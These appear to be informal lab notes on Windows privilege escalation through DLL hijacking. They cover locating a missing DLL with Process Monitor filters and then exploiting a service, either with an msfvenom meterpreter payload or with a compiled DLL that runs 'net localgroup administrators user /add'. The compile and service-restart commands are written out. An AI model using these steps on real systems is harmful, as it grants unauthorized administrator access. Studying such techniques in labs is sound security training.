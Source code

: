 DLL -> Dynamic Link Library 
just like an executable 

1) Go the windowa machine
2)  open tools 
3) then the process monitor run procmon as admin
4) then  using ctrl+f open the filter add the following filters
	1) Result is name not found 
	 ![](/Windows-Privilege-Escalation-Notes/windows_images/DLL-Hijacking-1.png)
	2) Path ends with .dll
	 ![](/Windows-Privilege-Escalation-Notes/windows_images/DLL-Hijacking-2.png)

5) then apply then ok 
6) open cmd 
7) type `sc start dllsvc`
8) then type `sc stop dllsvc`
9) repeat step 7 
10) we can now a see in `c:\temp\hijackme.dll`
	1) as shown below
		1)![](/Windows-Privilege-Escalation-Notes/windows_images/dll-hijaking-3.png)

11) to exploit the sevice we can use 2 ways 
	1) 1st way is use a msfvenom payload the normal meterpreter ones 
	2) 2nd ways is to add the user to administrators and increase our privs
	for the 1st one follow the executables path shown in module 13 replace exe with dll


2nd path is 

1) get windows_dll.c in our machine
2) change the system to `cmd.exe /k net localgroup administrators user /add` user here the computer user change the `user` to whom you want elevate the privs
3) compile it using `x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll`
4) transfer the exploit to the above path in `C:\temp`
5) restart the service using `sc stop dllsvc`  , `sc start dllsvc`
6) done
